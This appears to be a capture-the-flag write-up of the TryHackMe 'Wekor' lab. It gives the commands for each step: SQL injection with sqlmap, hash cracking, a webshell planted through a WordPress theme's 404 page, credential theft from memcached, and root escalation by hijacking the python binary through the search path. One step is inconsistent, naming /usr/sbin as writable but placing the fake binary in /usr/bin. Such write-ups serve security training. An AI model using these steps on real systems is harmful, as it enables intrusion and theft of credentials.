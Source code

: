 # Recon
```
 sudo nmap -sV -p- -sC -oN nmap.txt -O 10.10.6.227 -T5 
 ```
 <img src="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/Wekor/assets/1.png">

# Enumeration
 We discover two open ports and see the content of the robots.txt. The folders don't seem to exist on the host. Except for ```comingreallysoon``` in which we find a reference to ```/it-next```.

We browse around and try to do a purchase. There's a possibility to add a coupon code. We'll catch the request in BurpSuite and pass it to sqlmap to see if it's vulnerable to SQL injection.

The target appears to be vulnerable and after some digging around we get the content of a WordPress user table. It contains multiple usernames and hashes. 
```
 sqlmap -r request.txt --columns -T wp_users -D wordpress
```
 <img src="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/Wekor/assets/2.png">

 We also spot ```http://site.wekor.thm/wordpress```. We'll add that to our ```/etc/hosts``` so we can then visit the WordPress page.


We will try to crack the hashes using hashcat.
First we determine the algorithm with ```hashid``` en we look up which method to use.

 <img src="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/Wekor/assets/3.png">

 > Visit https://hashcat.net/wiki/doku.php?id=example_hashes for available methods.
 
 ```
 hashcat -m 400 -a 0 hash /usr/share/wordlists/rockyou.txt
 ```
 Hashcat cracked multiple passwords. Let's see if we can put them to use at the WordPress site. 

<img src="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/Wekor/assets/4.png">


We start a scan to discover directories to see if we can find the admin login page.
```
gobuster dir -u http://site.wekor.thm/wordpress/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
<img src="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/Wekor/assets/5.png">

# Intitial Foothold
We can now login and find out that ```wp_yura``` is a WordPress admin account. With these permissions we can change the content of the 404 page from a theme, resulting in a reverse shell on the target by browsing to:

```
http://site.wekor.thm/wordpress/wp-content/themes/twentytwentyone/404.php
```
<img src="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/Wekor/assets/6.png">

We now have a low privilege shell as ```www-data``` on the target.  As the host has python we upgrade the shell by entering:
```
python -c 'import pty;pty.spawn("/bin/bash")'
```

We spot database credentials in a config file (```/var/www/html/it-next/config.pphp```). We try using them with SSH but that didn't work.

<img src="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/Wekor/assets/7.png">

Tried looking suid files, checked cronjobs and finally found something interesting with ```netstat -an```: 
<img src="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/Wekor/assets/8.png">

There appears to be running a service on port 3306 (probably MySQL) and 11211 (probably memcached).

Let's try to connect with supposedly memcached:
```
telnet localhost 11211
```
We can enumerate the service and discover a username and password:
<img src="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/Wekor/assets/9.png">

# Privilege Escalation
We'll use ``su Orka`` and enter the password to login as Orka. Running ```sudo -l``` tells us we can run ```/home/Orka/Desktop/bitcoin``` as root:

<img src="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/Wekor/assets/10.png">

When running the binary we are asked to enter a password. We will download the binary using netcat and decompile it with ghidra. There we find a password for the binary.
<img src="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/Wekor/assets/11.png">


The binary is using an absolute path for calling the script, and an absolute path was used for the binary in the sudoers file, but, it is using a relative path for calling the python binary. And remember, we can write to ```usr/sbin``` which has a higher precedence (on this machine) over ```/usr/bin```, where the actual python binary resides.

What this means, is that the system will look for the python binary in ```/usr/sbin``` before looking somewhere else, which means we can place our own program, give it the same name, and the system will execute it instead of the actual python binary.

<img src="https://raw.githubusercontent.com/vbrunschot/TryHackMe/main/Wekor/assets/12.png">

We'll create bash file, which will spawn a shell, name it ```python``` and place it in ```/usr/bin```:
```sh
#!/bin/bash
/bin/bash
```
Now we'll get a shell as root as soon as we execute the following command:
```
sudo -u root /home/Orka/Desktop/bitcoin
```















